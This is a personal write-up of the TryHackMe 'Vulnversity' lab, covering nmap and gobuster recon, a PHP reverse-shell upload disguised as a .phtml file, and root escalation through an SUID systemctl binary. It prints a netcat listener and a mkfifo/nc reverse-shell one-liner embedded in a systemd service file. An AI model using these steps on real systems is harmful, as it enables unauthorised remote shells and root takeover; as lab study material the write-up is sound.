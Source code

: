 ```yaml
---
layout: default
title: VULNVERSITY
description: by TRY HACK ME
---
```


<h3 align="center">
This is the first path in to learning when jumping on the THM platform.
</h3>

# Vulnversity

1. Deploy the machine should be straight forward
2. For the recon level, I just used
   ```
   nmap 10.10.181.14 -A -T4
   ```
   also had to see the -h switch to find out what -n does not do
3. Locating directories with Gobuster

   ```
   gobuster dir -u http://10.10.91.9:3333 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt

   ===============================================================
   Gobuster v3.1.0
   by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
   ===============================================================
   [+] Url:                     http://10.10.91.9:3333
   [+] Method:                  GET
   [+] Threads:                 10
   [+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
   [+] Negative Status codes:   404
   [+] User Agent:              gobuster/3.1.0
   [+] Timeout:                 10s
   ===============================================================
   2021/11/26 11:51:54 Starting gobuster in directory enumeration mode
   ===============================================================
   /images               (Status: 301) [Size: 316] [--> http://10.10.91.9:3333/images/]
   /css                  (Status: 301) [Size: 313] [--> http://10.10.91.9:3333/css/]
   /js                   (Status: 301) [Size: 312] [--> http://10.10.91.9:3333/js/]
   /fonts                (Status: 301) [Size: 315] [--> http://10.10.91.9:3333/fonts/]
   /internal             (Status: 301) [Size: 318] [--> http://10.10.91.9:3333/internal/]
   /server-status        (Status: 403) [Size: 300]
   Progress: 112157 / 220561 (50.85%)
   ```

   /internal/ is where the upload form is located.

4. Comprimise the browser
   - basically just did what the instructions said and found the .phtml is the allowed file.
   - copied the raw code from https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php and saved it as reverse-shell.phtml
   - uploaded the file into the /internal/ page
   - started a listener with netcat
   - then went to http://10.10.91.9:3333/internal/uploads/reverse-shell.phtml
   - we got a user shell from here and got the user flag
5. Privilege Escalation

   - Google what SUID does and found out that there a binary exploit for it.
   - https://gtfobins.github.io/gtfobins/systemctl/
   - https://www.youtube.com/watch?v=WgTL7KM44YQ
   - so here is the next steps I did copying the code from gtfobins
   - started another listener on port 3000
     ```
     nc -nvlp 3000
     ```
   - then

     ```
     TF=$(mktemp).service
     ```

     ```
     echo '[Service]
     ExecStart=/bin/sh -c "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.4.54.166 3000 >/tmp/f"
     [Install]
     WantedBy=multiuser.target' >$TF

     /bin/systemctl link $TF

     /bin/systemctl enable --now $TF
     ```

     ```
     /bin/systemctl link $TF
     ```

     ```
     /bin/systemctl enable --now $TF
     ```

   - after the last command script my other listener has activated...
   - from there you'd just need to go to /root/ to find the root flag

<br><br><br>

# Reference

1. https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php
2. https://gtfobins.github.io/gtfobins/systemctl
3. https://www.youtube.com/watch?v=WgTL7KM44YQ
4. https://www.youtube.com/watch?v=nC9D1ES-nmo

<br><br>

[back to HOME](./)
